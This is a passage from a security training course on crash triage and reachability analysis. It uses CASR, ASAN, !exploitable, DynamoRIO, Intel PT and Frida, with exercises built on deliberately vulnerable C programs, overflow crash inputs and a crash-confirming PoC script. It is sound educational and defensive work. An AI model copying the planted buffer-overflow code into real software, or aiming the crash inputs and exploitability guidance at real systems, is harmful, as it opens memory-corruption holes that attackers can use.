    "ShortDescription": "stack-buffer-overflow(write)",
    "Description": "Stack buffer overflow",
    "Explanation": "The target writes data past the end, or before the beginning, of the intended stack buffer."
  },
  "Stacktrace": [
    "    #0 0x555555602d73 in strcpy (/home/dev/crash_analysis_lab/vuln_asan+0xaed73)",
    "    #1 0x555555659c75 in stack_overflow /home/dev/crash_analysis_lab/src/vulnerable_suite.c:9:5",
    "    #2 0x555555659c75 in main /home/dev/crash_analysis_lab/src/vulnerable_suite.c:65:39",
    "    #3 0x7ffff7c2a1c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16",
    "    #4 0x7ffff7c2a28a in __libc_start_main csu/../csu/libc-start.c:360:3",
    "    #5 0x555555580344 in _start (/home/dev/crash_analysis_lab/vuln_asan+0x2c344)"
  ],
  "CrashLine": "/home/dev/crash_analysis_lab/src/vulnerable_suite.c:9:5",
  "Source": [
    "    5      // 1. Stack Buffer Overflow",
    "    6      void stack_overflow(char *input) {",
    "    7          char buffer[64];",
    "    8          printf(\"[*] Copying input to 64-byte buffer...\\n\");",
    "--->9          strcpy(buffer, input);  // No bounds check!",
    "    10         printf(\"[*] Buffer: %s\\n\", buffer);",
    "    11     }"
  ],
  "AsanReport": [
    "==234082==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffff5e00060 at pc 0x555555602d74 bp 0x7fffffffdf70 sp 0x7fffffffd728",
    "WRITE of size 201 at 0x7ffff5e00060 thread T0",
    "    #0 0x555555602d73 in strcpy ...",
    "    #1 0x555555659c75 in stack_overflow vulnerable_suite.c:9:5",
    "",
    "Address 0x7ffff5e00060 is located in stack of thread T0 at offset 96 in frame",
    "    #0 0x555555659a7f in main vulnerable_suite.c:60",
    "",
    "  This frame has 1 object(s):",
    "    [32, 96) 'buffer.i' (line 7) <== Memory access at offset 96 overflows this variable",
    "",
    "Shadow bytes around the buggy address:",
    "=>0x7ffff5e00000: f1 f1 f1 f1 00 00 00 00 00 00 00 00[f3]f3 f3 f3",
    "Shadow byte legend:",
    "  Stack left redzone:      f1",
    "  Stack right redzone:     f3",
    "  Addressable:             00",
    "SUMMARY: AddressSanitizer: stack-buffer-overflow in strcpy"
  ]
}
```

**Key Fields Explained**:

- **CrashSeverity.Type**: EXPLOITABLE / PROBABLY_EXPLOITABLE / NOT_EXPLOITABLE
- **CrashSeverity.ShortDescription**: Specific bug class (e.g., `stack-buffer-overflow(write)`)
- **Stacktrace**: Full call stack with source locations (when symbols available)
- **CrashLine**: Exact source file and line where crash occurred
- **Source**: Context lines around the crash (with `--->` marking the crash line)
- **AsanReport**: Complete ASAN output including shadow memory visualization

### Mitigation Context

When assessing exploitability, you must understand which mitigations are active. Modern systems have multiple layers of protection that affect whether a crash is weaponizable.

**Checking Mitigations on Linux**:

```bash

# Check kernel protection features
cat /sys/devices/system/cpu/vulnerabilities/*
```

**Checking Mitigations on Windows**:

```bash

# Look for: DYNAMIC_BASE, NX_COMPAT, GUARD_CF, CETCOMPAT
```

**Modern Mitigation Impact on Exploitability**:

| Mitigation           | What It Prevents                    | Bypass Complexity             | Deployment Status             |
| -------------------- | ----------------------------------- | ----------------------------- | ----------------------------- |
| **Stack Canaries**   | Stack buffer overflow → RIP control | Medium (info leak required)   | Universal                     |
| **NX/DEP**           | Execute shellcode on stack/heap     | Medium (ROP/JOP required)     | Universal                     |
| **ASLR/PIE**         | Hardcoded addresses in exploits     | Medium (info leak required)   | Universal                     |
| **RELRO**            | GOT overwrite                       | Full RELRO: High              | Common (Full in hardened)     |
| **CFG/CFI**          | Arbitrary indirect calls            | High (gadget constraints)     | Windows default, Linux opt-in |
| **CET Shadow Stack** | ROP attacks                         | Very High (hardware enforced) | Windows 11+, Chrome, Edge     |
| **CET IBT**          | JOP/COP attacks                     | Very High (hardware enforced) | Emerging (Linux 6.2+)         |
| **ARM PAC**          | Pointer corruption                  | High (key required)           | Apple Silicon, Android 12+    |
| **ARM BTI**          | Branch to arbitrary code            | High (landing pads required)  | ARMv8.5+, iOS/Android         |
| **ARM MTE**          | Spatial/temporal memory bugs        | High (tag bypass required)    | Pixel 8+, select ARM servers  |

**CET (Control-flow Enforcement Technology)**:

Intel CET is a game-changer for exploitability assessment. Available on 11th Gen+ Intel and AMD Zen 3+:

```bash

# - Still exploitable via non-control-flow primitives (data-only attacks)
```

**ARM Pointer Authentication (PAC)**:

On Apple Silicon and ARMv8.3+ systems:

```bash

# Crash analysis must account for PAC failures vs actual bugs
```

**Exploitability Assessment Update**:

When documenting crashes, always include mitigation context:

```markdown

## Exploitability Assessment

**Crash Type**: Stack Buffer Overflow (RIP control)
**Traditional Rating**: EXPLOITABLE

### Mitigation Analysis

- Stack Canary: Present (bypassed via info leak in CVE-XXXX)
- NX: Enabled (ROP required)
- ASLR: Enabled (info leak in same bug provides base)
- CET: NOT enabled (legacy binary)
- CFG: NOT enabled

**Adjusted Rating**: EXPLOITABLE (with caveats)
**Exploitation Complexity**: Medium
**Required Primitives**: Info leak (available), ROP chain

> [!NOTE]
> On CET-enabled systems, this would be NOT EXPLOITABLE
> via traditional ROP. Data-only exploitation would need assessment.
```

**Key Questions for Exploitability**:

1. Is CET/PAC enabled? If yes, ROP/JOP may be blocked
2. Is CFG/CFI present? Limits callable targets
3. Is the binary sandboxed? (Chrome, iOS apps)
4. What's the deployment context? (kernel, hypervisor, user-space)
5. Are there adjacent info leak primitives?

### Microsoft !exploitable (Windows)

**What It Does**:

- WinDbg extension for exploitability analysis
- Similar to GDB exploitable
- Classifies Windows crashes
- Essential for Windows fuzzing

**Installation**:

```bash

# For 64-bit:
ren MSEC.dll_x64 MSEC.dll
copy MSEC.dll "C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\winext\"

# For 32-bit:
ren MSEC.dll_x86 MSEC.dll
copy MSEC.dll "C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\winext\"

# Or specify full path if not in winext folder:
.load C:\path\to\MSEC.dll
```

> [!NOTE]
> The original Microsoft download (download ID 44445) is no longer available.
> The community-maintained build at the GitHub repository above provides the same functionality.

**Usage**:

```bash

# Path to cdb.exe (adjust if needed)
$cdb = "C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe"

# Analyze all crash dumps
$crashes = Get-ChildItem .\crashes\ -Filter *.dmp

foreach ($crash in $crashes) {
    $output = & $cdb -z $crash.FullName `
        -c ".load msec; !exploitable; q" `
        2>&1 | Out-String

    $output | Out-File "analysis_$($crash.BaseName).txt"

    if ($output -match "Exploitability Classification: (\w+)") {
        Write-Host "$($crash.Name): $($Matches[1])"
    }
}
```

**Command-Line Quick Analysis**:

```batch
REM Single dump analysis with !exploitable
set CDB="C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe"
%CDB% -z crash.dmp -c ".load msec; !analyze -v; !exploitable; q"
```

### Crash Deduplication Strategies

**Why Deduplication Matters**:

- Fuzzing generates thousands of crashes
- Many crashes are duplicates (same root cause)
- Need to focus on unique bugs
- Reduces manual analysis workload

**Deduplication Methods**:

**1. Stack Hash**:

```bash

# Example with GDB
gdb -batch \
    -ex "run < crash" \
    -ex "bt" \
    -ex "quit" \
    ./target 2>&1 | md5sum
```

**2. Coverage Hash**:

```bash

# File-input targets (using @@):
afl-showmap -q -e -o /tmp/cov.map -H crash -- ./target_afl @@ || true
md5sum /tmp/cov.map
```

**3. Exploitable Hash**:

```bash

### Combining Tools for Best Results

**Recommended Workflow**:

1. **AFL++ Fuzzing**: Generate crashes with coverage-guided fuzzing
2. **CASR triage**: Initial deduplication and classification
3. **ASAN Analysis**: Detailed classification of unique crashes
4. **CASR Clustering**: Group similar bugs together
5. **Manual Review**: Verify high-priority crashes
6. **Exploit Development**: Focus on EXPLOITABLE crashes

### Practical Exercise

**Task**: Triage 20 AFL++ crashes using CASR and automated tools

> [!TIP]
> If you completed Week 2 fuzzing exercises (libWebP, GStreamer, json-c, or your own targets), use those real crashes here. The workflow is more meaningful with crashes you generated yourself.

# Option 3: Generate fresh crashes with the Day 1 test suite
mkdir -p afl_triage/crashes
for i in {1..5}; do
    python3 -c "print('A' * (100 + $i * 20))" > afl_triage/crashes/stack_$i
done
for i in {1..5}; do
    python3 -c "print('B' * (50 + $i * 10))" > afl_triage/crashes/heap_$i
done

# Add UAF, double-free, null-deref triggers
echo "3" > afl_triage/crashes/uaf_1
echo "4" > afl_triage/crashes/df_1
echo "5 0" > afl_triage/crashes/null_1
```

# casr-afl -i afl_triage/crashes -o afl_triage/casrep -j 4 -- ./bin/fuzz_target_asan @@

# For the Day 1 test suite (stdin-based, different test numbers):
for crash in afl_triage/crashes/*; do
    name=$(basename "$crash")

    # Determine test type from filename
    if [[ "$name" == stack_* ]]; then
        casr-san -o "afl_triage/casrep/${name}.casrep" -- ./vuln_asan 1 "$(cat $crash)" 2>/dev/null
    elif [[ "$name" == heap_* ]]; then
        casr-san -o "afl_triage/casrep/${name}.casrep" -- ./vuln_asan 2 "$(cat $crash)" 2>/dev/null
    elif [[ "$name" == uaf_* ]]; then
        casr-san -o "afl_triage/casrep/${name}.casrep" -- ./vuln_asan 3 2>/dev/null
    elif [[ "$name" == df_* ]]; then
        casr-san -o "afl_triage/casrep/${name}.casrep" -- ./vuln_asan 4 2>/dev/null
    elif [[ "$name" == null_* ]]; then
        casr-san -o "afl_triage/casrep/${name}.casrep" -- ./vuln_asan 5 0 2>/dev/null
    fi
done

# Cluster CASR reports by crash signature
casr-cluster -c afl_triage/casrep/ afl_triage/clusters/

# View cluster summary
echo "=== Cluster Summary ==="
for cluster in afl_triage/clusters/cl*; do
    count=$(ls -1 "$cluster"/*.casrep 2>/dev/null | wc -l)
    # Get crash type from first report in cluster
    first_report=$(ls "$cluster"/*.casrep 2>/dev/null | head -1)
    if [ -n "$first_report" ]; then
        crash_type=$(jq -r '.CrashSeverity.ShortDescription' "$first_report" 2>/dev/null)
        severity=$(jq -r '.CrashSeverity.Type' "$first_report" 2>/dev/null)
        echo "$(basename $cluster): $count crashes - $crash_type ($severity)"
    fi
done
```

# Extract EXPLOITABLE crashes to priority directory
mkdir -p afl_triage/priority

for casrep in afl_triage/casrep/*.casrep; do
    severity=$(jq -r '.CrashSeverity.Type' "$casrep" 2>/dev/null)
    if [ "$severity" = "EXPLOITABLE" ]; then
        cp "$casrep" afl_triage/priority/
        echo "[EXPLOITABLE] $(basename $casrep)"
    elif [ "$severity" = "PROBABLY_EXPLOITABLE" ]; then
        echo "[PROBABLY_EXPLOITABLE] $(basename $casrep)"
    fi
done

echo ""
echo "Priority crashes: $(ls -1 afl_triage/priority/*.casrep 2>/dev/null | wc -l)"
```

# Generate SARIF report for CI/CD integration
casr-cli --sarif afl_triage/triage_report.sarif afl_triage/casrep/
```

# Crash Triage Report

**Date**: [Date]
**Target**: vuln_asan (Day 1 test suite)
**Total Crashes Analyzed**: 12

## Unique Bug Classes (Clusters)

| Cluster | Type                  | Count | Priority |
| ------- | --------------------- | ----- | -------- |
| cl0     | stack-buffer-overflow | 5     | HIGH     |
| cl1     | heap-buffer-overflow  | 3     | HIGH     |
| cl2     | heap-use-after-free   | 1     | HIGH     |
| cl3     | double-free           | 1     | MEDIUM   |
| cl4     | null-dereference      | 2     | LOW      |

### 1. Stack Buffer Overflow (stack_5)

- **Type**: stack-buffer-overflow(write)
- **Location**: vulnerable_suite.c:9
- **Description**: WRITE of size 221 past stack buffer
- **Exploitability**: RIP control via return address overwrite

### 2. Heap Buffer Overflow (heap_5)

- **Type**: heap-buffer-overflow(write)
- **Location**: vulnerable_suite.c:16
- **Description**: WRITE of size 101 past 32-byte heap allocation
- **Exploitability**: Heap metadata corruption, potential arbitrary write

## Recommendations

1. Fix stack_overflow() - add bounds checking before strcpy
2. Fix heap_overflow() - validate input length before memcpy
3. Fix use_after_free() - null pointer after free
```

#### Success Criteria

- [ ] All crashes processed through CASR
- [ ] Crashes clustered by unique root cause
- [ ] EXPLOITABLE crashes identified and prioritized
- [ ] Triage report generated with actionable findings
- [ ] Understand the difference between crash count and unique bug count

### Exercise: Black-Box Stripped Binary Analysis

In the real world, you often analyze crashes in binaries without symbols or source code. This exercise forces you to do crash analysis using only primitive tools.

# Create a stripped vulnerable binary
cat > src/parser_stripped.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void parse_packet(char* input) {
    char cmd[8], data[64];
    int len;

    strncpy(cmd, input, 3);
    cmd[3] = '\0';
    char* p = input + 4;
    len = atoi(p);
    while (*p && *p != ':') p++;
    if (*p) p++;
    memcpy(data, p, len);  // BUG: trusts user-provided length
    printf("Cmd: %s, Len: %d\n", cmd, len);
}

int main() {
    char buf[256];
    if (fgets(buf, sizeof(buf), stdin)) parse_packet(buf);
    return 0;
}
EOF

# Compile and strip
gcc -O2 -fno-stack-protector -no-pie src/parser_stripped.c -o parser_stripped
strip --strip-all parser_stripped

# Create crash input
echo "CMD:200:$(python3 -c 'print("A"*200)')" > crashes/stripped_crash.bin

#### Your Task

Analyze the crash **without source code or symbols**. Use only:

- `gdb` / `pwndbg` for debugging
- `checksec` for mitigations
- `objdump` / `readelf` for binary info

**Hints** (use these Pwndbg commands):

```bash
gdb ./parser_stripped
(gdb) run < crashes/stripped_crash.bin

# After crash:
pwndbg> vmmap                    # Memory layout
pwndbg> telescope $rsp 30        # Stack contents
pwndbg> search "AAAA"            # Find input pattern
pwndbg> x/20i $rip-40            # Disassemble crash area
pwndbg> checksec                 # Binary protections
```

#### Deliverable

Write a **1-page report** answering:

1. What signal/crash type occurred?
2. What instruction caused the crash?
3. Which registers contain attacker-controlled data?
4. What's the likely vulnerability type?
5. Is it exploitable? Why/why not?

**Success Criteria**:

- [ ] Crash type correctly identified without symbols
- [ ] Attacker-controlled data located in memory/registers
- [ ] Reasonable exploitation assessment provided

### Exercise: Realistic Corpus Pipeline (Week 2 → Week 4)

It connects fuzzing (Week 2) to crash analysis (Week 4) and PoC development. Use AFL++ output if available.

#### Pipeline Overview

```text
AFL++ crashes → casr-afl → casr-cluster → afl-tmin → PoC script
```

#### Your Task

Complete the full pipeline from raw crashes to a working PoC:

**Step 1: Gather Crashes**

```bash

# Option B: Use the fuzz_target crashes from earlier today
ls ~/crash_analysis_lab/afl_output/default/crashes/

# Pick EXPLOITABLE crash from highest-priority cluster
afl-tmin -i crash_file -o minimized.bin -m none -- ./target @@
```

**Step 4: Write PoC**

```python
#!/usr/bin/env python3
from pwn import *

PAYLOAD = open("minimized.bin", "rb").read()

def test_crash():
    p = process(["./target"])
    p.send(PAYLOAD)
    try:
        p.wait(timeout=2)
    except:
        pass
    if p.returncode and p.returncode < 0:
        log.success(f"Crash confirmed! Signal: {-p.returncode}")
        return True
    return False

if __name__ == "__main__":
    test_crash()
```

#### Deliverable

A short report documenting:

1. **Input**: How many crashes, from what target
2. **Triage**: EXPLOITABLE/PROBABLY_EXPLOITABLE/NOT_EXPLOITABLE counts
3. **Clusters**: How many unique bugs found
4. **Selected crash**: Which one and why
5. **Minimization**: Original vs minimized size
6. **PoC**: Does it reliably trigger the crash?

**Success Criteria**:

- [ ] Completed full pipeline: triage → cluster → minimize → PoC
- [ ] PoC reliably triggers crash (≥9/10 attempts)
- [ ] Time spent documented (target: <1 hour for 20 crashes)

### Standardized Triage Notes: The Crash Card

This one-page document captures everything needed to understand, reproduce, and prioritize the bug. It becomes your deliverable for professional crash analysis.

# Crash Card: [Brief Description]

**ID**: [Unique identifier, e.g., CRASH-2024-001]
**Date**: [Analysis date]
**Analyst**: [Your name]
**Target**: [Binary name and version]

## Crash Signature

- **Signal**: [SIGSEGV/SIGABRT/etc.]
- **Exception Code**: [0xc0000005/etc. for Windows]
- **Faulting Instruction**: [e.g., mov [rax], rcx]
- **Faulting Address**: [e.g., 0x4141414141414141]
- **Stack Hash**: [First 8 chars of stack trace hash]

## Primitive Classification

- **Type**: [ ] Read [ ] Write [ ] Execute [ ] Control-flow
- **CASR Severity**: [EXPLOITABLE/PROBABLY_EXPLOITABLE/NOT_EXPLOITABLE]
- **Specific Class**: [heap-buffer-overflow/use-after-free/etc.]

## Attacker Control Assessment

| Element        | Controlled?     | Evidence            |
| -------------- | --------------- | ------------------- |
| Crash address  | Yes/No/Partial  | [How you know]      |
| Written value  | Yes/No/Partial  | [How you know]      |
| Size of access | Yes/No/Partial  | [How you know]      |
| Path to crash  | Direct/Indirect | [Input correlation] |

## Reachability Analysis

- **Input Vector**: [stdin/file/network/IPC]
- **Authentication Required**: [Yes/No]
- **User Interaction**: [Yes/No]
- **Attack Complexity**: [Low/Medium/High]

**Data Flow Summary**:
[Input source] → [Parser/Handler] → [Vulnerable operation] → [Crash]

## Active Mitigations

| Mitigation   | Status            | Bypass Complexity    |
| ------------ | ----------------- | -------------------- |
| ASLR/PIE     | On/Off            | [Low/Med/High/N/A]   |
| Stack Canary | On/Off            | [Requires info leak] |
| NX/DEP       | On/Off            | [ROP required]       |
| RELRO        | None/Partial/Full | [GOT writable?]      |
| CFG/CFI      | On/Off            | [Gadget constraints] |
| CET          | On/Off            | [Hardware enforced]  |

## Reproduction

- **Minimized Input**: [filename or hash]
- **Input Size**: [X bytes]
- **SHA256**: [hash of minimized input]
- **Reproduction Rate**: [X/10 attempts]

**Reproduction Command**:

```bash
./target < crash_input.bin
```

## Recommended Priority

- [ ] **CRITICAL**: Remote code execution, no auth, easy trigger
- [ ] **HIGH**: Code execution with constraints
- [ ] **MEDIUM**: Info leak or DoS
- [ ] **LOW**: Hard to reach or limited impact

**Justification**: [1-2 sentences explaining priority]

## Raw Data

<details>
<summary>ASAN Report (click to expand)</summary>

```
[Paste ASAN output here]
```

</details>

<details>
<summary>Backtrace</summary>

```
[Paste GDB backtrace here]
```

</details>
````

# Crash Card: Heap Overflow in JSON Parser

**ID**: CRASH-2024-042
**Date**: 2024-12-19
**Analyst**: Security Researcher
**Target**: json_parser v2.1.0 (Linux x86_64)

## Crash Signature

- **Signal**: SIGSEGV (11)
- **Faulting Instruction**: `mov byte ptr [rdi+rax], cl`
- **Faulting Address**: 0x6070000000a0 (heap)
- **Stack Hash**: 8f3a2b1c

## Primitive Classification

- **Type**: [X] Write
- **CASR Severity**: EXPLOITABLE
- **Specific Class**: heap-buffer-overflow-write

## Attacker Control Assessment

| Element        | Controlled? | Evidence                          |
| -------------- | ----------- | --------------------------------- |
| Crash address  | Partial     | Offset from allocation controlled |
| Written value  | Yes         | Direct byte from input            |
| Size of access | Yes         | Length field in JSON              |
| Path to crash  | Direct      | parse_string()                    |

## Reachability Analysis

- **Input Vector**: File (JSON document)
- **Authentication Required**: No
- **User Interaction**: Yes (user opens file)
- **Attack Complexity**: Low

**Data Flow Summary**:

JSON file → parse_document() → parse_string() → memcpy() → overflow

## Active Mitigations

| Mitigation   | Status  | Bypass Complexity     |
| ------------ | ------- | --------------------- |
| ASLR/PIE     | On      | Need info leak        |
| Stack Canary | On      | Not applicable (heap) |
| NX/DEP       | On      | ROP for code exec     |
| RELRO        | Partial | GOT writable          |
| CFG/CFI      | Off     | N/A                   |

## Reproduction

- **Minimized Input**: crash_042_min.json
- **Input Size**: 89 bytes
- **SHA256**: a1b2c3d4e5f6...
- **Reproduction Rate**: 10/10

**Reproduction Command**:

```bash
./json_parser crash_042_min.json
```

## Recommended Priority

- [x] **HIGH**: Code execution with constraints

**Justification**: Heap overflow with controlled write value. Requires info leak
for ASLR bypass, but GOT overwrite possible. User interaction required (open file).
````

### Key Takeaways

1. **Automation is essential**: Manual triage of thousands of crashes is impractical
2. **Multiple tools provide confidence**: Agree classification increases confidence
3. **Deduplication saves time**: Focus on unique bugs, not duplicate crashes
4. **Exploitability guides priority**: EXPLOITABLE bugs warrant immediate attention
5. **Clustering reveals patterns**: Multiple crashes often share root cause
6. **Standardized reports**: Crash Cards make analysis professional and reproducible

### Discussion Questions

1. How reliable are automated exploitability assessments (CASR, Pwndbg checksec, !exploitable) compared to manual analysis?
2. What are the limitations of stack-hash based deduplication used by these tools?
3. Why might two crashes with different stack traces have the same root cause?
4. When would you choose CASR batch analysis over interactive Pwndbg debugging?

## Day 4: Reachability Analysis - Tracing Input to Crash

- **Goal**: Learn to trace user-controlled input from entry point to crash location.
- **Activities**:
  - _Reading_:
    - [Dynamic Binary Instrumentation](https://dynamorio.org/page_home.html)
  - _Online Resources_:
    - [Intel Processor Trace](https://github.com/intel/libipt)
    - [Taint Analysis Overview](https://users.ece.cmu.edu/~aavgerin/papers/Oakland10.pdf)
  - _Tool Setup_:
    - DynamoRIO with drcov
    - Lighthouse plugin for IDA/Binary Ninja
    - rr (record and replay debugger)
  - _Exercise_:
    - Trace HTTP request to crash in web server
    - Identify input propagation path

### Understanding Reachability Analysis

**What Is Reachability?**:

- Tracing how attacker-controlled input reaches vulnerable code
- Answering: "Can an attacker trigger this bug?"
- Essential for proving exploitability

**Why It Matters**:

- Bug in reachable code = vulnerability
- Bug in unreachable code = non-issue (for that attack surface)
- Determines attack complexity and prerequisites

**Methods**:

1. **Static Analysis**: Code review, call graph analysis
2. **Dynamic Analysis**: Runtime tracing, instrumentation
3. **Symbolic Execution**: Path exploration with constraints
4. **Hybrid**: Combine static and dynamic

### Coverage-Guided Reachability (DynamoRIO)

**DynamoRIO + drcov**:

- Dynamic binary instrumentation framework
- drcov module tracks code coverage
- Generates .drcov files for Lighthouse
- Works on binaries without source

**Installation**:

```bash

# Download and install DynamoRIO
cd ~/tools
wget https://github.com/DynamoRIO/dynamorio/releases/download/cronbuild-11.90.20452/DynamoRIO-Linux-11.90.20452.tar.gz
tar -xzf DynamoRIO-Linux-11.90.20452.tar.gz

# Set environment variables
export DYNAMORIO_HOME=~/tools/DynamoRIO-Linux-11.90.20452
export PATH=$DYNAMORIO_HOME/bin64:$PATH

# Test installation
drrun -root  ~/tools/DynamoRIO-Linux-11.90.20452 -- /usr/bin/ls
```

**Collecting Coverage**:

```bash

# Run target with drcov (crash input)
drrun -root  ~/tools/DynamoRIO-Linux-11.90.20452 -t drcov -- ~/crash_analysis_lab/vuln_asan 1 $(python3 -c "print('A'*200)")

# Run with benign input for comparison
drrun -root  ~/tools/DynamoRIO-Linux-11.90.20452 -t drcov -- ~/crash_analysis_lab/vuln_asan 1 $(python3 -c "print('A'*50)")

# Output: drcov.vuln_asan.<pid>.0000.proc.log
```

**Visualizing in Lighthouse** (IDA Pro / Binary Ninja):

```bash

### Intel Processor Trace (PT)

**What Is Intel PT?**:

- Hardware-based execution tracing
- Records all branches taken by CPU
- Near-zero overhead (~5%)
- Requires supported CPU (Broadwell+)

**Check Support**:

```bash
cat /proc/cpuinfo | grep intel_pt

# Should show "intel_pt" in flags
```

> [!NOTE]
> Intel PT doesn't work inside VMs by default.
> For KVM/QEMU, the host kernel needs `CONFIG_KVM_INTEL_PT=y` and `kvm_intel pt_mode=1`.
> The VM also needs `intel_pt=on` in its CPU flags.
> If PT isn't available, use software-based alternatives like `perf record` with software events, or run PT workloads on bare metal.

**Intel PT Example: Tracing Stack Overflow to Crash**:

This example uses the `vuln_no_protect` binary from Day 1 to trace how input reaches the vulnerable `stack_overflow()` function:

```bash
cd ~/crash_analysis_lab

# Step 1: Record execution with crash input (test case 1 = stack overflow)
perf record -e intel_pt//u -o crash_trace.data ./vuln_no_protect 1 $(python3 -c "print('A'*200)")

# Step 2: Decode the trace to see all branches taken
perf script -i crash_trace.data --itrace=b > branches.txt

# Step 3: Find the crash point - last branches before crash
perf script -i crash_trace.data --itrace=b | grep "stack_overflow" | tail -5

# Step 4: Convert to coverage for visualization
perf script -i crash_trace.data --itrace=i1000 -F ip > coverage.txt

# Step 5: Compare with benign input (no crash - input fits in buffer)
perf record -e intel_pt//u -o benign_trace.data ./vuln_no_protect 1 "short_input"
perf script -i benign_trace.data --itrace=i1000 -F ip > benign_coverage.txt

# Step 6: Find unique crash path (code only hit during overflow)
comm -23 <(sort -u coverage.txt) <(sort -u benign_coverage.txt) > crash_unique.txt

# These addresses can be loaded into IDA/Ghidra to highlight the crash-specific path
```

**Tracing Different Vulnerability Types**:

```bash
cd ~/crash_analysis_lab

# Trace heap overflow (test case 2)
perf record -e intel_pt//u -o heap_trace.data ./vuln_no_protect 2 $(python3 -c "print('B'*100)")
perf script -i heap_trace.data --itrace=b | grep -E "heap_overflow|strcpy"

# Trace UAF (test case 3) - Note: may not crash without ASAN
perf record -e intel_pt//u -o uaf_trace.data ./vuln_no_protect 3
perf script -i uaf_trace.data --itrace=b | grep -A5 "use_after_free"

# Trace double-free (test case 4)
perf record -e intel_pt//u -o df_trace.data ./vuln_no_protect 4
perf script -i df_trace.data --itrace=b | grep "free"

### Frida-Based Tracing (Alternative for Closed-Source)

When DynamoRIO isn't available or you need cross-platform tracing, **Frida** provides dynamic instrumentation without recompilation. This is especially useful for analyzing crashes in binaries where you don't have source code.

**Installation**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate
pip install frida-tools
```

**Basic Function Tracing with Lab Binaries**:

> [!NOTE]
> The functions in `vuln_no_protect` (like `stack_overflow`, `heap_overflow`, etc.) are **not exported symbols** - they're internal functions. `Module.findExportByName()` won't find them, but Frida can resolve them automatically using `DebugSymbol.fromName()` if the binary has symbols (not stripped).

```javascript
// trace_vuln_suite.js - Trace calls to vulnerable_suite functions
// Save to ~/crash_analysis_lab/trace_vuln_suite.js
//
// Frida resolves symbol addresses automatically - no manual nm lookup needed!

const targetFuncs = [
  "stack_overflow",
  "heap_overflow",
  "use_after_free",
  "double_free",
  "null_deref",
];

// Hook binary functions by symbol name (works if binary has symbols)
targetFuncs.forEach(function (funcName) {
  // DebugSymbol.fromName() finds internal symbols that findExportByName() can't
  const sym = DebugSymbol.fromName(funcName);

  if (sym.address.isNull()) {
    console.log(`[-] Symbol not found: ${funcName} (binary might be stripped)`);
    return;
  }

  try {
    Interceptor.attach(sym.address, {
      onEnter: function (args) {
        console.log(`[*] ${funcName} called`);
        console.log(
          `    Backtrace:\n` +
            Thread.backtrace(this.context, Backtracer.ACCURATE)
              .map(DebugSymbol.fromAddress)
              .join("\n"),
        );
      },
      onLeave: function (retval) {
        console.log(`[*] ${funcName} returned`);
      },
    });
    console.log(`[+] Hooked ${funcName} at ${sym.address}`);
  } catch (e) {
    console.log(`[-] Could not hook ${funcName}: ${e}`);
  }
});

// Hook libc functions AFTER libraries are loaded
// When using frida -f (spawn mode), libc isn't loaded yet at script init time
setTimeout(function () {
  const libc = Process.getModuleByName("libc.so.6");
  console.log(`[*] libc base: ${libc.base}`);

  ["strcpy", "memcpy", "free", "malloc"].forEach(function (func) {
    const addr = libc.findExportByName(func);
    if (addr) {
      Interceptor.attach(addr, {
        onEnter: function (args) {
          console.log(`[LIBC] ${func}(${args[0]})`);
        },
      });
      console.log(`[+] Hooked libc ${func} at ${addr}`);
    }
  });
}, 0);
```

> [!TIP]
> **For stripped binaries**: If `DebugSymbol.fromName()` returns null addresses, the binary was compiled without symbols (`-s` flag) or stripped with `strip`. In that case, you'll need to get addresses manually with `nm` (before stripping) or reverse engineer them with Ghidra/IDA.

**Running Frida Traces with Lab Binaries**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# Trace stack overflow (test case 1)
frida -f ./vuln_no_protect -l trace_vuln_suite.js -- 1 $(python3 -c "print('A'*200)")

#     0x40151e vuln_no_protect!main /home/dev/crash_analysis_lab/src/vulnerable_suite.c:65:64

#     0x40154c vuln_no_protect!main /home/dev/crash_analysis_lab/src/vulnerable_suite.c:67:35

# Process terminated
```

**Key Lessons**:

1. **`DebugSymbol.fromName()`**: Resolves internal function symbols automatically (no manual `nm` needed)
2. **`findExportByName()`**: Only works for dynamically exported symbols (libc, shared libs)
3. **Defer libc hooks with `setTimeout`**: When using `-f` (spawn mode), libraries aren't loaded at script init time
4. **Stripped binaries**: If symbols are stripped, you'll need manual address resolution via reverse engineering

**Memory Access Tracing** (Find what reads your input):

```javascript
// trace_memory.js - Watch memory region for access
// Save to ~/crash_analysis_lab/trace_memory.js

// This script watches for memory accesses to track taint flow
// Run with: frida -f ./vuln_no_protect -l trace_memory.js -- 1 AAAA...

var inputPattern = "AAAA"; // Pattern to search for

// Defer hooking until libc is loaded (required for spawn mode with -f)
setTimeout(function () {
  var libc = Process.getModuleByName("libc.so.6");
  var strcpyAddr = libc.findExportByName("strcpy");

  if (!strcpyAddr) {
    console.log("[-] Could not find strcpy");
    return;
  }

  // Hook strcpy to find where our input lands
  Interceptor.attach(strcpyAddr, {
    onEnter: function (args) {
      this.dest = args[0];
      this.src = args[1];
      try {
        var srcStr = args[1].readCString();
        if (srcStr && srcStr.indexOf(inputPattern) !== -1) {
          console.log(`[TAINT] strcpy copying tainted data!`);
          console.log(`    dest: ${this.dest}`);
          console.log(`    src:  ${this.src}`);
          console.log(`    data: ${srcStr.substring(0, 50)}...`);
          console.log(
            Thread.backtrace(this.context, Backtracer.ACCURATE)
              .map(DebugSymbol.fromAddress)
              .join("\n"),
          );
        }
      } catch (e) {}
    },
    onLeave: function (retval) {
      // After strcpy, we know where our input is in memory
      if (this.dest) {
        console.log(`[TAINT] Input now at ${this.dest}`);
      }
    },
  });
  console.log(`[+] Hooked strcpy at ${strcpyAddr}`);
}, 0);
```

**Complete Reachability Analysis Script**:

```python
#!/usr/bin/env python3
"""
frida_reachability.py - Trace data flow from input to crash
Save to ~/crash_analysis_lab/frida_reachability.py

Usage:
    cd ~/crash_analysis_lab
    source .venv/bin/activate
    python3 frida_reachability.py 1 $(python3 -c "print('A'*200)")
"""
import frida
import sys
import os

# so libc is already loaded when we attach - no setTimeout needed.
js_code = """
// Track data flow from input to crash
var inputAddr = null;
var inputSize = 0;
var taintedAddrs = [];

var libc = Process.getModuleByName("libc.so.6");

// Hook strcpy - the actual vulnerable operation
var strcpyAddr = libc.findExportByName("strcpy");
if (strcpyAddr) {
